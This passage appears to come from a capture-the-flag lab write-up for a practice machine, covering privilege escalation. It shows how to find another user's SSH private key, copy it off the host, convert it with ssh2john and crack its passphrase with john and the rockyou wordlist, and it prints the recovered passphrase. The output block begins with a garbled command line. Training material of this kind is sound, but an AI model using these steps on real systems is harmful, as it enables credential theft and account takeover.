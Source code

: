 ### we got access!!

## Privilege Escalation

```sh
jan@basic2:~$ cd ../kay
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$
```

Go to .ssh folder
```sh
cd .ssh
```
Here you can see all rsa  keys for kay . So now the task is to get those keys onto our computer! which we can transfer using **rsync** or **scp** commands.

else just use **cat id_rsa** and copy and save that into your computer 

```sh
ssh2john <id_rsa-file-you-copied.txt> >> hash.txt
```

```sh
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Here you go we got a password!!!
```
rockyoun forjohn.txt --wordlist=/usr/share/wordlists/ 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (/home/local_host/id_rsa.txt)     
1g 0:00:00:00 DONE (2022-12-08 03:31) 25.00g/s 2068Kp/s 2068Kc/s 2068KC/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
